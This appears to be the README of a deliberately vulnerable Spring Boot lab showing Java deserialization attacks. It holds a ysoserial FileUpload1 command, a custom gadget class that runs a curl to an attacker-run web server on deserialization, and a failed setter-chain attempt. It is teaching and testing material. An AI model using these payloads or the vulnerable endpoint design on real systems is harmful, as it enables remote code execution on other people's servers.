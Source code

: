 * How to Run:
  - Run via `mvn spring-boot:run`

* Routes:
  - Read `blub.txt` file: Visit `/file-test?file=blub.txt`
  - Serialize:
    - Get a serialized `Book` object: Visit `/serialize?doUrlEncode=false`
    - Get a serialized `Book` object that is also URL encoded: Visit `/serialize?doUrlEncode=true`
  - Deserialize:
    - `GET`: Visit `GET /deserialize?b=<base64book_UrlEncoded>`
    - `POST`: Visit `POST /deserialize` and provide the `object-to-deserialize` in the body

* Exploiting a `Gadget Chain` (that still works as of August 2022!):
  - As a PoC, the `pom.xml` contains `commons-fileupload:1.3.1` and `commons-io:2.4`
  - Thus, we can use the `FileUpload1` gadget chain from `ysoserial`: `java -jar ysoserial.jar FileUpload1 'write;/tmp;HACKEEED' | base64`
  - We send this to our `Spring Boot` app, which will create a randomly named file (e.g. `/tmp/upload_1e2897d1_aac7_4210_8911_57cbb6ac37c0_00000000.tmp`) in `/tmp` with the content `HACKEEED`

* We also created our own `Gadget Chain` -> `BookRceReadObject` (uses the gadget `readObject`)
  * `General Description`:
    - We created a new class `BookRceReadObject.java` that execute a command upon deserialization
    - We also create a separate mini app `Evil.java` where we serialize an instance of this class, give it a command of our choosing, and then send the serialized base64-encoded string to `POST /deserialize`
  * `Command to Execute`:
    - You can adjust the command to execute in `Evil.java` (this can't be done via a command line argument for now - Boo, I know.)
  * `Setup`:
    - We first compile `Evil.java` via `javac Evil.java BookRceSetter.java BookRceSetter.java`
    - Now, we `cd` into the `/src/main/java` folder, and run `java com.example.my.tests.Evil`
    - We now use the generated file `naughty_BookRceReadObject.ser` that contains a base64 encoded version of our serialized payload
  * `Exploitation`:
    - `PoC` - `curl`:
      - We run a web server via `python3 -m http.server 82`
      - Now, we adjust the IP address of the `curl` command in `Evil.java` to wherever this web server is running
      - Last, we send a request to our API:  
        POST /deserialize  
        Content-Type: application/json  
        <br />  
        <content of `naughty_BookRceReadObject.ser`>  
      - If everything works, our web server gets hit

* Testing `Setter Gadget Chain` -> Not working
  - We also create `BookRceSetter.java` which would execute a command upon calling a setter
    - Our idea is that a `setter` might be automatically invoked upon deserialization (to set the corresponding value)
  - We do the same steps as in the above section, send the payload from `naughty_BookRceSetter.ser` to `/POST deserialize`...
    - But it's not working.. Our command does not execute...
  